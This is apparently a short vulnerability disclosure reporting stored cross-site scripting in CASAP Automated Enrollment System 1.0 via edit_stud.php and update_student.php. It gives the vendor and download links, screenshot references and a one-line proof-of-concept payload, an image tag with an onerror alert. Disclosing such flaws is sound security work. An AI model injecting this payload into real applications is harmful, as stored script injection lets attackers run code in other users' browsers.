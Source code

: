 * Exploit Title: CASAP-Automated-Enrollment-System 1.0 - Stored cross-site scripting   
* Vendor Homepage： https://www.sourcecodester.com/php/12210/casap-automated-enrollment-system.html  
* Software Link:https: https://www.sourcecodester.com/download-code?nid=12210&title=CASAP+Automated+Enrollment+System+using+PHP%2FMySQLi+with+Source+Code  
* Version: 1.0  
* Vulnerable file:  
edit_stud.php  
![image](https://github.com/BigTiger2020/CASAP-Automated-Enrollment-System/blob/main/edit_stud-xss.png)  
![image](https://github.com/BigTiger2020/CASAP-Automated-Enrollment-System/blob/main/edit_stud-xss-2.png)  
update_student.php  
![image](https://github.com/BigTiger2020/CASAP-Automated-Enrollment-System/blob/main/update_student.png)  
* Vulnerability proof :    
Script statement：<image src=1 onerror=alert(1)>
![image](https://github.com/BigTiger2020/CASAP-Automated-Enrollment-System/blob/main/xss.png)
